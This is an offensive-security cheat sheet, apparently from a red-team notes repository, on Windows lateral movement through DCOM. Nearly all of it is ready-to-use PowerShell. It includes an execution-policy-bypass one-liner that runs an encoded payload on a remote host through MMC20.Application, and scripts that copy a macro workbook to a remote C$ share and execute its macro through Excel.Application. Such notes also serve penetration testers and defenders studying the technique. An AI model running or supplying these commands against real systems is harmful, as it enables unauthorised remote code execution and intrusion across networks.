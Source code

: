 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - living-off-the-land
  - T1021-003
  - network-protocols
  - msrpc
  - windows
---
```

# Living off the Land

## 01 - PowerShell

### 1.1 - MMC20.Application

```powershell
C:\> powershell -exec bypass -command "[activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application', '<IP>')).Document.ActiveView.ExecuteShellCommand('C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe', $null, '-E <base64_payload>', '7')"

PS C:\> [activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application', '<IP>')).Document.ActiveView.ExecuteShellCommand('C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe', $null, '-E <base64_payload>', '7')
```

### 1.2 - Excel.Application

```powershell
PS C:\> $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))
$com | Get-Member
```

```vbscript
Sub mymacro()
    'payload goes here
    Shell ("notepad.exe")
End Sub
```

`$ cat copyexceldcom.ps1`

---

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))

$LocalPath = "path\to\excelmacrofile.xls"

$RemotePath = "\\<IP>\C$\excelmacrofile.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

`$ cat openexceldcom.ps1`

---

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))

$LocalPath = "C:\path\to\excelmacrofile.xls"

$RemotePath = "\\<IP>\C$\excelmacrofile.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

# When running as system adminstrator privileges
$Path = "\\<IP>\C$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [System.IO.Directory]::CreateDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\excelmacrofile.xls")

$com.Run("mymacro")
```

---
## References

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)